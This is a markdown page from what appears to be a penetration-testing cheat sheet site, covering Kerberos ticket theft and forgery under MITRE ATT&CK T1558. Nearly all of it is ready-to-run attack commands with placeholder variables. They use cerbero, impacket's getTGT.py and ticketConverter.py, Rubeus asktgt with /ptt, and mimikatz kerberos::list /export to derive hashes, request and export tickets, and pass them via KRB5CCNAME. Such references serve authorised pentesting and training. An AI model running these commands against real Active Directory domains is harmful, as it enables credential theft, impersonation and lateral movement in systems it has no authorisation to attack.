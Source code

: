 ```yaml
---
layout: post
title: TA0006 Credentials Forgery - Kerberos
category: pen
parent: cheatsheets
modified_date: 2023-06-09
permalink: /pen/krb
---
```


**Mitre Att&ck Entreprise**: [T1558 Steal and Forge Kerberos Tickets](https://attack.mitre.org/techniques/T1558/) 

**Menu**
<!-- vscode-markdown-toc -->
1. [prereq](#prereq)
2. [get-nthash](#get-nthash)
3. [get-tgt](#get-tgt)
4. [ccache-convert](#ccache-convert)
5. [krb-export](#krb-export)
6. [krb-ptt](#krb-ptt)

<!-- vscode-markdown-toc-config
	numbering=true
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

##  1. <a name='prereq'></a>prereq

* Which OS ? What Creds ?
![Windows Credentials by Auth. Service & by OS](/assets/images/win-delpy-creds-table-by-os-til-2012.png)

### tools

* [Rubeus compilation wiki](https://github.com/GhostPack/Rubeus)
* cerbero
* tickey
* impacket

##  2. <a name='get-nthash'></a>get-nthash
```
# compute nthash from clear-text password
cerbero hash $ztarg_user_pass -u $zdom_fqdn/$ztarg_user_name
$ztarg_user_nthash=""
$ztarg_user_aes256k=""
```

##  3. <a name='get-tgt'></a>get-tgt
```
getTGT.py $zdom_fqdn/$ztarg_user_name@$ztarg_dc_fqdn -aesKey $ztarg_user_aes256k -dc-ip $zdom_dc_ip
getTGT.py $zdom_fqdn/$ztarg_user_name@$ztarg_computer_fqdn -aesKey $ztarg_user_aes256k -dc-ip $zdom_dc_ip

cerbero ask -u $zdom_fqdn/$ztarg_user_name@ztarg_dc_fqdn --aes $ztarg_user_aes256k -k $zdom_dc_ip -vv
cerbero ask -u $zdom_fqdn/$ztarg_user_name@ztarg_computer_fqdn --aes $ztarg_user_aes256k -k $zdom_dc_ip -vv

cd C:\Tools\GhostPack\Rubeus\Rubeus\bin\Debug
./Rubeus.exe asktgt /user:$ztarg_user_name /password:$ztarg_user_pass /domain:$zdom /dc:$zdom_dc_fqdn /ptt
```

##  4. <a name='ccache-convert'></a>ccache-convert

* Convert linux to windows krb ticket :
```
ticketConverter.py $ztarg_user_name.ccache $ztarg_user_name.krb
cerbero convert -i $ztarg_user_name.ccache -o $ztarg_user_name.krb
```

##  5. <a name='krb-export'></a>krb-export
```powershell
cd C:\tools\mimikatz\x64
mimikatz.exe privilege:debug
kerberos::list /export
```

##  6. <a name='krb-ptt'></a>krb-ptt
```bash
# linux
export KRB5CCNAME="$PWD/$ztarg_user_name.krb" 
```

